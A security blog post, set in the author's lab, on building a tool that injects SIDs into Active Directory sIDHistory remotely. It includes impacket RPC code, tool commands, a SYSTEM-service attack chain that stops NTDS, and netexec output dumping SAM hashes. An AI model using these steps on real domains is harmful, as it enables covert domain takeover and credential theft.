

> *"There is currently no way to exploit this technique purely from a distant UNIX-like machine, as it requires some operations on specific Windows processes' memory."*
> — [The Hacker Recipes](https://www.thehacker.recipes/ad/persistence/sid-history)

Challenge accepted.

---

## So, what's sIDHistory?

Quick version: every AD object has a [`sIDHistory`](https://learn.microsoft.com/en-us/windows/win32/adschema/a-sidhistory) attribute. It exists for domain migrations — when you move a user from Domain A to Domain B, their old SID lands in `sIDHistory` so they keep access to their old resources.

The fun part? At authentication time, **every SID in sIDHistory goes straight into the user's access token**. Same level as their real SID and group memberships. No distinction.

So if you drop the [Domain Admins](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers) SID (`-512`) into some random user's `sIDHistory`... that user is now a Domain Admin. No group changes, no password resets, no visible modification in the admin tools. The privilege just appears.

That's [T1134.005](https://attack.mitre.org/techniques/T1134/005/) — SID-History Injection. And until now, pulling it off required one of these:

| Technique | Constraint |
|-----------|-----------|
| [mimikatz](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_sid.c) `sid::patch` | SYSTEM on the DC, patches `ntdsa.dll` in memory |
| [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) | Physical/offline access to `ntds.dit` |
| Golden Ticket + ExtraSids | Needs `krbtgt` hash, doesn't persist in AD |

All Windows-only. All require either being on the DC or having a pre-compromised secret.

The goal was to do it **remotely, from any platform (Linux, macOS, Windows), with just domain credentials**.

---

## The wall: why "just LDAP-modify it" doesn't work

The naive approach first. In Active Directory, every attribute in the schema has a [`systemOnly`](https://learn.microsoft.com/en-us/windows/win32/adschema/s-systemonly) flag. When it's set to `TRUE`, the attribute is entirely controlled by the system — no one can write to it, period. That's how `objectSid` works: locked at the schema level, immutable.

`sIDHistory`? It's `systemOnly: FALSE`. Which means AD treats it as a regular, writable attribute. So the logical assumption is: as a Domain Admin, with full control over an object, a simple LDAP `MODIFY_ADD` with the SID to inject should work.

```
insufficientAccessRights
```

Even as Domain Admin. Even with explicit `WriteProperty` delegation on the attribute. Every single time.

### Two layers of access control

The reason this fails is that Active Directory doesn't run a single access check when you modify an attribute — it runs **two**, and most people only know about the first one:


**Layer 1 — the DSA/LDAP layer** is the one everyone is familiar with. It checks the [DACL](https://learn.microsoft.com/en-us/windows/win32/secauthz/dacls-and-aces) on the target object — do you have `WriteProperty` on `sIDHistory`? `GenericAll`? Are you a Domain Admin? If yes, you pass this layer. This is the classic permission model that you configure through ACLs, delegations, and Group Policy.

**Layer 2 — the SAM layer** sits behind the first one and enforces its own rules on attributes it considers "its own". These rules are **hardcoded in the Domain Controller's code** — not configurable through ACLs, GPOs, or anything else. Regardless of your AD permissions, the SAM layer has the final say on its attributes.


And the SAM layer's verdict on `sIDHistory` writes is asymmetric:

```
MODIFY_ADD     →  BLOCKED  (always, regardless of permissions)
MODIFY_REPLACE →  BLOCKED  (same check)
MODIFY_DELETE  →  ALLOWED  (if Layer 1 passed)
```

You can **remove** SIDs from `sIDHistory` via LDAP. You just can't **add** them. This asymmetry is deliberate on Microsoft's part — write operations on `sIDHistory` are restricted to a specific API path that enforces additional security checks (auditing, trust validation, etc.), while deletions are considered less sensitive.

That's exactly why [mimikatz's `sid::patch`](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_sid.c) takes the approach it does — it patches the conditional jumps in `ntdsa.dll` directly in memory to disable these SAM-layer checks. But that means running on the DC itself with SYSTEM privileges, and the memory layout of `ntdsa.dll` has shifted enough since Server 2016 that it's getting unreliable.

So LDAP is a dead end for adding SIDs. Time to look elsewhere.

---

## The backdoor Microsoft left open

Turns out Microsoft actually provides a *supported* way to add SIDs to `sIDHistory`. It's called [`DsAddSidHistory`](https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory), a Win32 API designed for their [Active Directory Migration Tool](https://learn.microsoft.com/en-us/windows/win32/ad/active-directory-migration-tool-overview) (ADMT). When you migrate users from one domain to another, this API is what copies the old SIDs into `sIDHistory` to preserve access to legacy resources.

Under the hood, it makes an RPC call via the [MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/) protocol — specifically [`IDL_DRSAddSidHistory`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/376230a5-d806-4ae5-970a-f6243ee193c8), **opnum 20** on the DRSUAPI interface.

Each function on a [DCE/RPC](https://learn.microsoft.com/en-us/windows/win32/rpc/rpc-start-page) interface is identified by an **operation number** (opnum). If you've used [DCSync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync), you already know this interface — [`secretsdump.py`](https://github.com/fortra/impacket/blob/master/impacket/dcerpc/v5/drsuapi.py) sends opnum 3 (`DRSGetNCChanges`) on the same pipe. pySIDHistory sends opnum 20 (`DRSAddSidHistory`) instead.

### Why it bypasses the SAM layer

`DRSAddSidHistory` doesn't go through LDAP — it goes through the DRS replication engine, which has its own authorization model. The replication engine operates at a lower level than the application layers and doesn't enforce SAM-level restrictions on `sIDHistory` writes. It's the same principle that makes DCSync work: AD replication has privileges that normal LDAP operations don't.

### The problem: nobody had implemented it

Opnum 20 didn't exist in any Python framework. Not in [impacket](https://github.com/fortra/impacket), not anywhere else. Impacket defines each RPC function as a Python class with its opnum — `DRSGetNCChanges` is there as opnum 3, but opnum 20 simply had no class. The code had to be written from scratch.

```
Attacker (Linux)                        Domain Controller
  │                                         │
  │── EPM (135) ──────────────────────────►│  Endpoint resolution
  │── DCE/RPC BIND (DRSUAPI) ────────────►│  PKT_PRIVACY encryption
  │── DRSBind (opnum 0) ─────────────────►│  "I support ADD_SID_HISTORY"
  │── DRSAddSidHistory (opnum 20) ───────►│  Copy SID into sIDHistory
  │◄── DRS_MSG_ADDSIDREPLY ──────────────│  Win32 error = 0 (success)
```

Time to build it.

---

## Implementing opnum 20: looks simple, isn't

When you call a function via RPC, the arguments need to be serialized into bytes to travel over the network. The format used by DCE/RPC is called [NDR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/b6090c2b-f44a-47a1-a13b-b82ade0137b2) (Network Data Representation) — think of it as the binary equivalent of JSON for a REST API, except far more strict. Every data type has a precise wire encoding: a pointer, an array, and a string each serialize differently. Get a single type wrong and every byte after it shifts — the DC receives garbage and rejects the whole request.

The [MS-DRSR spec](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/376230a5-d806-4ae5-970a-f6243ee193c8) defines the call like this:

```c
ULONG IDL_DRSAddSidHistory(
    [in, ref] DRS_HANDLE hDrs,
    [in] DWORD dwInVersion,
    [in, ref, switch_is(dwInVersion)] DRS_MSG_ADDSIDREQ *pmsgIn,
    [out, ref] DWORD *pdwOutVersion,
    [out, ref, switch_is(*pdwOutVersion)] DRS_MSG_ADDSIDREPLY *pmsgOut
);
```

The [request structure](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/50b7cc92-608c-44ac-9d3e-48e2112c9bc0) carries everything: source domain, source principal, destination domain, destination principal, and optional credentials for the source DC:

```c
typedef struct {
    DWORD Flags;                                        // 0 = cross-forest
    [string] WCHAR *SrcDomain;
    [string] WCHAR *SrcPrincipal;
    [string, ptr] WCHAR *SrcDomainController;
    [range(0,256)] DWORD SrcCredsUserLength;
    [size_is(SrcCredsUserLength)] WCHAR *SrcCredsUser;  // ← NOT a string
    [range(0,256)] DWORD SrcCredsDomainLength;
    [size_is(SrcCredsDomainLength)] WCHAR *SrcCredsDomain;
    [range(0,256)] DWORD SrcCredsPasswordLength;
    [size_is(SrcCredsPasswordLength)] WCHAR *SrcCredsPassword;
    [string] WCHAR *DstDomain;
    [string] WCHAR *DstPrincipal;
} DRS_MSG_ADDSIDREQ_V1;
```

Response is dead simple — a single `DWORD dwWin32Error`. Zero means it worked.

Translating this to [impacket](https://github.com/fortra/impacket)'s NDR framework should've been an afternoon of work. It turned into three bugs that each returned the exact same useless error message.

---

## Bug #1 — The missing union discriminant

The first `DRSAddSidHistory` class looked reasonable:

```python
# First attempt
class DRSAddSidHistory(NDRCALL):
    opnum = 20
    structure = (
        ('hDrs', drsuapi.DRS_HANDLE),
        ('dwInVersion', DWORD),
        ('pmsgIn', DRS_MSG_ADDSIDREQ_V1),  # ← the problem
    )
```

The DC responded with `rpc_x_bad_stub_data`. Helpful.

The issue: `pmsgIn` is declared with `[switch_is(dwInVersion)]` — a **non-encapsulated [NDR union](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-rpce/b6090c2b-f44a-47a1-a13b-b82ade0137b2)**. On the wire, this needs an explicit discriminant tag before the union body. Without it, every field after `dwInVersion` is shifted by 4 bytes and the DC sees garbage.

The fix is the same pattern impacket uses for `DRSGetNCChanges` — wrap it:

```python
class DRS_MSG_ADDSIDREQ(NDRUNION):
    commonHdr = (('tag', DWORD),)
    union = { 1: ('V1', DRS_MSG_ADDSIDREQ_V1) }
```

---

## Bug #2 — Credential fields that look like strings but aren't

Still `rpc_x_bad_stub_data`. Same error, different root cause.

Look at these two fields from the struct definition:

```c
[string] WCHAR *SrcDomain;                          // ← LPWSTR
[size_is(SrcCredsUserLength)] WCHAR *SrcCredsUser;  // ← conformant array
```

They both hold text. They both contain `WCHAR*`. But their **wire encoding is completely different**:

| Type | Wire format | Overhead |
|------|------------|----------|
| `LPWSTR` (`[string]`) | MaxCount + Offset + ActualCount + data | 12 bytes |
| `[size_is(N)]` array | MaxCount + data | 4 bytes |

Using `LPWSTR` for the credential fields pumps 8 extra bytes into the stream that the DC doesn't expect. Everything after that is misaligned → same error.

Fix: define a proper conformant WCHAR array type:

```python
class WCHAR_SIZED_ARRAY(NDRUniConformantArray):
    item = '<H'  # unsigned short = WCHAR

class PWCHAR_SIZED_ARRAY(NDRPOINTER):
    referent = (('Data', WCHAR_SIZED_ARRAY),)
```

Both bugs produce `rpc_x_bad_stub_data` with zero additional context. The only way to find them was hex-dumping the NDR bytes and comparing against the [MS-DRSR wire format](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/50b7cc92-608c-44ac-9d3e-48e2112c9bc0) byte by byte.


**Debugging rule:** `rpc_x_bad_stub_data` = your NDR encoding is wrong. Once you start seeing real Win32 errors (5, 8534, 8536...), your serialization is correct and the DC is actually processing the request. That transition point is your signal that the hard part is over.


---

## The bug that almost killed the project

NDR is fixed. Credential encoding is fixed. The request goes out and comes back with... `ERROR_INVALID_FUNCTION` (error code 1). Not a business logic error, not an access denied — just "invalid function". As if the DC doesn't know what opnum 20 is.

Next step: check the server's capabilities. During [`DRSBind`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/3ee529b1-23db-4996-948a-042f04998e91) (opnum 0), the DC returns its supported features in `DRS_EXTENSIONS_INT.dwFlags`. The flag [`DRS_EXT_ADD_SID_HISTORY`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/3ee529b1-23db-4996-948a-042f04998e91) (0x00040000) means "opnum 20 supported".

The parsed flags read `0x6d693a83`. That doesn't include bit 18. Conclusion: the Windows Server 2019 Vagrant box simply doesn't support `DRSAddSidHistory`.

Except... `0x6d693a83` was also missing a bunch of basic flags that `secretsdump.py` relies on — and `secretsdump.py` works perfectly against this same DC. Something wasn't adding up.

Turns out, the code was **never actually parsing the server response**. The `_drs_bind()` method grabbed the handle and threw away `ppextServer`:

```python
# The bug — just returns the handle, ignores everything else
resp = dce.request(request)
return resp['phDrs']
```

That `0x6d693a83` was raw response bytes being naively cast to an integer. Looking at how [`secretsdump.py`](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py) actually does it:

```python
# The correct way (from secretsdump.py)
drsExtensionsInt = drsuapi.DRS_EXTENSIONS_INT()
raw = b''.join(resp['ppextServer']['rgb'])
raw += b'\x00' * (len(drsExtensionsInt) - resp['ppextServer']['cb'])
drsExtensionsInt.fromString(raw)
server_flags = drsExtensionsInt['dwFlags']
```

After implementing proper deserialization:

```
Server DRS flags: 0x3fffff7f
DRS_EXT_ADD_SID_HISTORY: PRESENT
```

`0x3fffff7f` — nearly every flag set. The server supported opnum 20 the whole time.

This was the most insidious of the three bugs because it wasn't a serialization issue — it was a logic error in response parsing that generated a false conclusion ("the server doesn't support this feature"). A conclusion that could have killed the entire project. A full day of debugging for a parsing oversight.

---

## Six errors to success

With the plumbing finally working, the DC started returning *real* errors. Each one revealed a prerequisite that the [DsAddSidHistory documentation](https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory) mentions in isolation but never ties together.

**Error 8534** — `ERROR_DS_CROSS_DOMAIN_CLEANUP_REQD`. Source and destination are in the same forest. `DRSAddSidHistory` is designed for cross-forest migrations — pointing it at a domain within the same forest makes no sense in that context, so the DC rejects it immediately. Fix: use a source domain in a separate forest.

**Error 8536** — `ERROR_DS_AUDIT_FAILURE` on the destination DC. Auditing isn't enabled. Microsoft requires that every SID injection be logged — it's a traceability safeguard baked into the API. Fix: `auditpol /set /category:"Account Management" /success:enable /failure:enable` on the destination DC.

**Error 5** — `ERROR_ACCESS_DENIED`. The source DC rejected the credentials. `DRSAddSidHistory` doesn't just modify the destination — it also contacts the source DC to verify that the source principal actually exists. It needs valid credentials for that remote domain. Fix: pass `--src-username`, `--src-password`, `--src-domain`.

**Error 8552** — Same audit failure, but on the *source* DC this time. Auditing must be enabled on **both** sides. Same `auditpol` command, run on DC2.

**Error 1376** — `ERROR_NO_SUCH_ALIAS`. Specific local groups are missing on the DCs. `DRSAddSidHistory` expects local groups named `DOMAIN$$$` (the domain name followed by three dollar signs) to exist on both DCs. In production, [ADMT](https://learn.microsoft.com/en-us/windows/win32/ad/active-directory-migration-tool-overview) creates them automatically during migrations. In a lab built from scratch, they don't exist. Fix: `net localgroup LAB1$$$ /add` on both DCs.

**Error 0** — **It worked.**

All of these prerequisites are documented by Microsoft — but scattered across the `DsAddSidHistory` docs, the ADMT documentation, and separate KB articles. Never together, never in order. Each one discovered the hard way.

### The moment it worked (or so I thought)



The tool connects via LDAP for auth and SID resolution, establishes a DRSUAPI session signaling `DRS_EXT_ADD_SID_HISTORY`, then fires `DRSAddSidHistory` with the source principal (`da-admin2@lab2.local`) pointed at the target (`user1@lab1.local`). The DC copies the SID. Error code 0. Done.

Time to cash in — if `user1` now carries the Domain Admins SID from `lab2.local` in its token, a simple `netexec --sam` against DC2 should dump everything:

```
nxc smb 192.168.56.11 -u user1 -p 'Password123!' -d lab1.local --shares
```

```
SMB  192.168.56.11  445  DC2  [+] lab1.local\user1:Password123!
SMB  192.168.56.11  445  DC2  Share     Permissions  Remark
SMB  192.168.56.11  445  DC2  -----     -----------  ------
SMB  192.168.56.11  445  DC2  ADMIN$                 Remote Admin
SMB  192.168.56.11  445  DC2  C$                     Default share
SMB  192.168.56.11  445  DC2  IPC$      READ         Remote IPC
SMB  192.168.56.11  445  DC2  NETLOGON  READ         Logon server share
SMB  192.168.56.11  445  DC2  SYSVOL    READ         Logon server share
```

No `(Pwn3d!)`. No `READ,WRITE` on `ADMIN$`. The SID is in the attribute — confirmed with `--query` — but the access token doesn't reflect it. `user1` is still a normal user.

Days of NDR serialization bugs, prerequisite errors, and MS-DRSR documentation. The RPC call succeeded. The SID was written. And none of it mattered. A perfectly functional gun that only fires blanks.

### Why DRSUAPI hits a wall

Two fundamental constraints make this approach a dead end for privilege escalation:

**Constraint #1 — DRSUAPI is cross-forest only.** `DRSAddSidHistory` is designed for domain *migrations*. Injecting a SID from your own domain into your own domain doesn't make sense in that context — the DC rejects it with error 8534. The SID *has* to come from another forest.

**Constraint #2 — [SID filtering](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/).** When a user authenticates across a forest trust, the destination DC inspects the PAC and **strips any SID with a RID below 1000**. That's Domain Admins (512), Enterprise Admins (519), krbtgt (502) — every single privileged group. Even with `TREAT_AS_EXTERNAL` set on the trust and SID History explicitly enabled, Windows still filters these at the boundary. It's a security feature, not a misconfiguration.

So the DRSUAPI method works perfectly at the protocol level — the SID gets written into `sIDHistory` exactly as intended. But the only SIDs you can usefully inject cross-forest are unprivileged ones (RID > 1000), which aren't interesting for privilege escalation. The very SIDs you *want* to inject are the ones the trust strips out.

---

## The DSInternals method — bypassing every validation layer

The core issue with DRSUAPI is that it operates within Windows' trust and validation model. Every safeguard kicks in: cross-forest requirement, SID filtering, auditing prerequisites. Injecting privileged SIDs requires bypassing all of that — modifying the attribute at a level where none of these checks exist.

That level is `ntds.dit` itself.

### The DSInternals approach

[DSInternals](https://github.com/MichaelGrafnetter/DSInternals) is a PowerShell module by Michael Grafnetter that can modify `ntds.dit` offline — including writing arbitrary SIDs into `sIDHistory` via `Add-ADDBSidHistory`. No SAM layer, no DRSUAPI validation, no SID filtering. The catch: NTDS has to be stopped first, because Windows locks the database file while the service is running.

The architecture chains three impacket protocols to do this entirely from Linux:

```
Attacker (Linux)                              Domain Controller
  │                                                 │
  │── SMB (445) ──────────────────────────────────►│  Upload PowerShell script
  │── SCMR (svcctl pipe) ────────────────────────►│  Create + start temp service
  │                                                 │
  │   [DC-side: service runs PowerShell]            │
  │     1. Stop-Service ntds                        │
  │     2. Install DSInternals 4.14 from NuGet      │
  │     3. Add-ADDBSidHistory on ntds.dit           │
  │     4. Start-Service ntds                       │
  │     5. Write result to C:\Windows\Temp\         │
  │                                                 │
  │── SMB (445) ──────────────────────────────────►│  Poll for result file
  │◄── "SUCCESS" ─────────────────────────────────│
  │── SCMR ───────────────────────────────────────►│  Delete service + cleanup
```

**Why SCMR?** Windows services run as SYSTEM. By creating a temporary service whose binary path is a PowerShell command, we get SYSTEM-level execution on the DC — enough to stop NTDS, modify the database, and restart the service. Impacket's SCMR implementation handles all of this over the existing SMB connection.

**Why DSInternals 4.14 specifically?** Version 6.x removed `Add-ADDBSidHistory`. The tool auto-installs 4.14 from NuGet to an isolated path (`C:\Windows\Temp\__DSInternals414`) to avoid conflicts with any existing installation.

**The brief downtime:** Stopping NTDS means the DC is unavailable for a few seconds. The SMB connection also drops (since SMB auth goes through AD). The tool handles this with automatic reconnection and polling — it waits for the result file to appear, reconnecting as needed until NTDS is back.

This is noisier than DRSUAPI. It stops a critical service, installs a module, writes to disk. But it works on *any* SID — same-domain, privileged, anything. No trust required, no SID filtering.

### The actual privilege escalation

Same lab, same `user1`, same `Password123!`. But this time, injecting Domain Admins of **the same domain** — something DRSUAPI flat-out refuses:

```bash
python3 main.py -d lab1.local -u da-admin -p 'Password123!' --dc-ip 192.168.56.10 \
    --target user1 --inject domain-admins --force
```

```
             _____ _____ ____  _   _ _     _
 _ __  _   _/ ___||_ _||  _ \| | | (_)___| |_ ___  _ __ _   _
| '_ \| | | \___ \ | | | | | | |_| | / __| __/ _ \| '__| | | |
| |_) | |_| |___) || | | |_| |  _  | \__ \ || (_) | |  | |_| |
| .__/ \__, |____/|___||____/|_| |_|_|___/\__\___/|_|   \__, |
|_|    |___/                                             |___/
    Remote SID History Injection & Audit Tool
    DSInternals + DRSUAPI | github.com/felixbillieres


[*] Injection target: user1
[*] SID to inject:   S-1-5-21-1064857176-2493228643-2199314749-512 (Domain Admins)
[*] Method:          DSInternals (offline ntds.dit)
[*] DC:              192.168.56.10

[*] Connecting to DC via SMB...
[*] NTDS service stopping, injecting SID via DSInternals...
[+] DSInternals injection succeeded
[*] Waiting for NTDS to restart...

[+] sIDHistory modified successfully

SID History for user1:
  S-1-5-21-1064857176-2493228643-2199314749-512 (Domain Admins)
```

And this time:

```
nxc smb 192.168.56.10 -u user1 -p 'Password123!' -d lab1.local --shares

SMB  192.168.56.10  445  DC1  [+] lab1.local\user1:Password123! (Pwn3d!)
SMB  192.168.56.10  445  DC1  Share      Permissions  Remark
SMB  192.168.56.10  445  DC1  -----      -----------  ------
SMB  192.168.56.10  445  DC1  ADMIN$     READ,WRITE   Remote Admin
SMB  192.168.56.10  445  DC1  C$         READ,WRITE   Default share
SMB  192.168.56.10  445  DC1  IPC$       READ         Remote IPC
SMB  192.168.56.10  445  DC1  NETLOGON   READ,WRITE   Logon server share
SMB  192.168.56.10  445  DC1  SYSVOL     READ,WRITE   Logon server share
```

```
nxc smb 192.168.56.10 -u user1 -p 'Password123!' -d lab1.local --sam

SMB  192.168.56.10  445  DC1  [+] lab1.local\user1:Password123! (Pwn3d!)
SMB  192.168.56.10  445  DC1  [*] Dumping SAM hashes
SMB  192.168.56.10  445  DC1  Administrator:500:aad3b435b51404ee...:7dfa0531d73101ca080c7379a9bff1c7:::
SMB  192.168.56.10  445  DC1  Guest:501:aad3b435b51404ee...:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB  192.168.56.10  445  DC1  DefaultAccount:503:aad3b435b51404ee...:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

`(Pwn3d!)`. `ADMIN$: READ,WRITE`. SAM dumped. A standard domain user — no group changes, no password reset, no visible modification in ADUC — is now a full Domain Admin through nothing but a single `sIDHistory` entry.

---

## That's a wrap

This started because someone wrote "there's no way to do this from Linux." Two methods later, here we are — DRSUAPI for stealth cross-forest injection, and DSInternals for when you need to inject any SID regardless of RID or domain boundaries.

Each method exists because the previous one had a hard limitation. DRSUAPI can't do same-domain or privileged SIDs? Fine — stop NTDS and modify the database directly.

The code's at [github.com/felixbillieres/pySIDHistory](https://github.com/felixbillieres/pySIDHistory) — lab included if you want to break things safely. Have fun, stay legal, and don't be the reason your SOC has a bad day.

---

### References

| Resource | What it covers |
|----------|---------------|
| [MS-DRSR: IDL_DRSAddSidHistory](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/376230a5-d806-4ae5-970a-f6243ee193c8) | The RPC call specification |
| [MS-DRSR: DRS_MSG_ADDSIDREQ_V1](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/50b7cc92-608c-44ac-9d3e-48e2112c9bc0) | Request structure and wire format |
| [MS-DRSR: DRS_EXTENSIONS_INT](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/3ee529b1-23db-4996-948a-042f04998e91) | DRSBind capability flags |
| [MS-DRSR: Server behavior for opnum 20](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/fbc94975-28ef-4334-bb47-35708a15d586) | How the DC processes the call |
| [DsAddSidHistory requirements](https://learn.microsoft.com/en-us/windows/win32/ad/using-dsaddsidhistory) | Prerequisites for the Win32 API |
| [MITRE ATT&CK T1134.005](https://attack.mitre.org/techniques/T1134/005/) | SID-History Injection technique |
| [The Hacker Recipes: SID History](https://www.thehacker.recipes/ad/persistence/sid-history) | Technique overview |
| [impacket](https://github.com/fortra/impacket) | Python DCE/RPC framework |
| [mimikatz sid:: module](https://github.com/gentilkiwi/mimikatz/blob/master/mimikatz/modules/kuhl_m_sid.c) | Memory patching approach |
| [Dirkjan Mollema: SID Filtering](https://dirkjanm.io/active-directory-forest-trusts-part-one-how-does-sid-filtering-work/) | How trust SID filtering works |
| [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) | Offline ntds.dit modification (4.14 for `Add-ADDBSidHistory`) |
| [MS-SCMR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-scmr/) | Service Control Manager Remote Protocol (remote service execution) |
| [Impacket Developer Guide](https://cicada-8.medium.com/impacket-developer-guide-part-1-rpc-4df4fe6d79d7) | Extending impacket with custom RPC |
